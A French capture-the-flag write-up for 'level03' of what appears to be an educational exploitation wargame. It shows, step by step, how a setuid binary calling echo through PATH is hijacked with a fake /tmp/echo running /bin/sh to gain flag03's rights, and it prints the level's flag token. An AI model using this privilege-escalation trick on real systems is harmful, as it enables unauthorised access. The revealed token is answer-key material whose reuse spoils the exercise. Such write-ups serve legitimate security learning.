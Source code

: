 # level03

1) Commande utilisée pour trouver le fichier appartenant à `flag03` :

```bash
ls -l
```

2) Résultat notable trouvé :

Fichier : `./level03` appartenant à `flag03`

3) Exécution du binaire trouvé :

```bash
chmod +x level03
Exploit me
```

3) Inspection du binaire avec strings et file :

```bash
file level03
strings -n 6 level03 | grep echo
```
4) Résultats : 

Le binaire utilise echo depuis son PATH dans l'environnement et possède les droits de son créateur (setuid / setgid).

5) Objectif :

Détourner echo vers une invite de commande afin de lancer `getflag`.

```bash
echo '/bin/sh' > /tmp/echo
chmod +x /tmp/echo
```
Maintenant le script tmp/echo ouvre une invite de commande, et ensuite on change le PATH d'echo vers tmp/echo dans l'environnement.

```bash
export PATH=/tmp:$PATH
```

6) Nous voilà maintenant dans une invite de commande possédant les droits de flag03, il ne nous reste plus qu'à appeler getflag.

```bash
getflag
```
7) Token découvert :

le token est `qi0maab88jeaj46qoumi7maus`
